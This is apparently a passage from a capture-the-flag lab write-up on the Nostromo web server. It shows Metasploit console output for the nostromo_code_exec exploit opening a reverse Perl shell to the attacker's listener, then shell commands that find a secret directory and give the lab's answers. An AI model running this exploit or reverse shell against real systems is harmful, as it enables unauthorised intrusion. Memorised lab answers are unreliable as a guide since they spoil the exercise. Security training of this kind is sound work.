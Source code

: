 ```bash


msf6 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.17.7.91:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.17.7.91:4444 -> 10.10.237.243:54484) at 2021-05-16 18:26:23 +0530

shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary(bash) on target machine
[*] Found bash at /bin/bash

_nostromo@ubuntu:/bin$ id    
id
uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

### What is the name of the secret directory in the /var/nostromo/htdocs directory?
- **Answer:** s3cretd1r

```bash
_nostromo@ubuntu:/bin$ cd /var/nostromo/htdocs
cd /var/nostromo/htdocs

_nostromo@ubuntu:/var/nostromo/htdocs$ ls -la
ls -la
total 20
drwxr-xr-x 3 _nostromo _nostromo 4096 Dec  5  2019 .
drwxr-xr-x 6 _nostromo _nostromo 4096 Dec  5  2019 ..
-rw-r--r-- 1 _nostromo _nostromo  564 Dec  5  2019 index.html
-rw-r--r-- 1 _nostromo _nostromo 1827 Dec  5  2019 nostromo.gif
drwxr-xr-x 2 root      root      4096 Dec  5  2019 s3cretd1r
```

### What are the contents of the file inside of the directory?
- **Answer:** Woohoo!

```bash
_nostromo@ubuntu:/var/nostromo/htdocs$ cd s3cretd1r
cd s3cretd1r

_nostromo@ubuntu:/var/nostromo/htdocs/s3cretd1r$ ls -la
ls -la
total 12
drwxr-xr-x 2 root      root      4096 Dec  5  2019 .
drwxr-xr-x 3 _nostromo _nostromo 4096 Dec  5  2019 ..
-rw-r--r-- 1 root      root         8 Dec  5  2019 nice

_nostromo@ubuntu:/var/nostromo/htdocs/s3cretd1r$ cat nice
cat nice
Woohoo!
```

---